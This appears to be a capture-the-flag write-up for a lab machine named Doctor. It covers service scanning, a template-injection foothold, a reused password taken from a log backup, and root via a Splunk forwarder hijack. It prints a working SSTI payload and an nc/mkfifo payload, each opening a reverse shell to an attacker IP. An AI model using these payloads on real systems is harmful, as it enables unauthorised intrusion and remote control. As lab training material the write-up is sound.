




```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

At the website on port 80 we get the hint of another domain name called `doctors.htb`. Mind the small difference of just a `s` at the end of `doctor`.


So we add this domain to our `etc/hosts` too.

On that domain (`doctors.htb`) we find an registration page. Here we simply create a fake user.
Watching the source code we find an archive and a form for new entries:



Logged in there is a form for new entries at http://doctors.htb/post/new.

Like always we try SSTI first. Using a term like `{{7*7}}` gives us a calculated output at http://doctos.htb/archive of 49. (Look at the source code).

Because our input gets calculated someweher we can set up a payload here to receive a shell like:
```
{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.23/1337 0>&1'").read()}}
``` 
Now we can set this up as a title of a new post:



Setting up a listener and visiting http://doctos.htb/archive we receive a shell as user `web@doctor`.


## User

As web we are not user yet. In the homes path we can find a user called `shaun`.

Enumerating the machine we find various files like a backup at `/var/log/apache2`.
Inside the backup we find a password `Guitar123`.
Apparently that's the password for user `shaun` as we can just switch to him with `su shaun` and the given password.

## Root

While enumerating with LinPeas we find that the splunk service from the nmap output on port 8089 is runned by root:


Searching for vulnerabilities we found the following: 
https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2

Let's try to use that [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2).
First we set up a payload like:
```sh
mkfifo /tmp/lol;nc 10.10.14.20 4242 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
So the whole command is:
```sh
python3 ./PySplunkWhisperer2_remote.py --username shaun --password Guitar123 --host 10.129.194.124 --lhost 10.10.14.53 --payload "mkfifo /tmp/lol;nc 10.10.14.53 4242 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol"
```

Setting up a listener and running up the tool gives us a root shell:



